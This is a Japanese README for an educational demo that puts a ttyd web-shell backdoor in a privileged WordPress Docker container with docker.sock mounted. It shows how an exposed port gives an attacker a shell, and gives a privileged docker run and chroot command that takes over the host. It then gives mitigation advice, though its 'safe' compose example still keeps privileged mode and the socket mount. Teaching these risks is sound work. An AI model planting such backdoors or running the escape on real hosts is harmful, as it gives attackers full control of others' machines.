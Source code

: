 > 🇺🇸 English version → [README.md](./README.md)

> 🇯🇵 日本語版はこちら → [README.ja.md](./README.ja.md)

# 🐳 all-in-one-wordpress（バックドアのデモ用）

このプロジェクトは、**悪意のあるコンテナイメージがどのようにしてホストを乗っ取るか**を実演する教育目的のデモです。WordPress を装った all-in-one Docker コンテナに `ttyd` シェルのバックドアを仕込み、SSH ポートフォワーディングを使った開発環境の守り方を紹介します。

---

## 📦 プロジェクト構成

```text
.
├── Dockerfile           # WordPress + ttyd + Apache リバースプロキシ
├── docker-compose.yml   # docker.sock をマウント & privileged 設定あり
├── init.sql             # WordPress 初期DBセットアップ
├── supervisord.conf     # MariaDB, Apache, ttyd を一括起動する supervisor 設定
├── README.md            # このファイル
```

---

## 🚀 クイックスタート（※ローカル検証環境で使用してください）

### 1. ビルド

```bash
docker compose build
```

### 2. 起動

```bash
docker compose up -d
```

### 3. SSH ローカルフォワードでアクセス（安全な方法）

```bash
ssh -L 8888:127.0.0.1:8899 root@your.server.ip
```

ブラウザで以下にアクセス：

```
http://localhost:8888/shell/
```

---

## 🧨 攻撃者の視点：どうやって悪用されるのか？

仮に `docker-compose.yml` に以下のように書かれていたら：

```yaml
ports:
  - "0.0.0.0:8899:8080"
```

攻撃者は次のURLを叩くだけで、Web Bash シェルが使えるようになります：

```
http://<あなたのIP>:8899/shell/
```

さらに、以下のコマンドでホストを完全に乗っ取れます：

```bash
docker run --rm -it --privileged -v /:/mnt alpine \
  chroot /mnt /bin/bash -c "echo 'You are hacked' | wall; touch /root/OWNED-$(whoami)"
```

* ホストの `/root` にファイルが作成され
* 全ユーザーのターミナルに警告が送信されます

---

## 🛡️ 開発者が取るべき対策

* 信頼できない Docker イメージを使用しない
* 不必要なポートをパブリックに公開しない
* `127.0.0.1` にバインドして SSH LocalForwarding を使う

### docker-compose.yml（安全な例）：

```yaml
services:
  wp:
    image: wp-with-backdoor
    ports:
      - "127.0.0.1:8899:8080"  # ローカル専用に制限
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    privileged: true
```

---

## 📚 関連資料

ブログ記事とセットで学習すると理解が深まります：

👉 [Container-backdoor-ssh.md](./Container-backdoor-ssh.md)

---

## ⚠️ 注意

このプロジェクトはセキュリティ教育・デモ目的に限り使用してください。実運用環境での使用は絶対に避けてください。
本プロジェクトにより発生した損害について、作者は一切の責任を負いません。

---
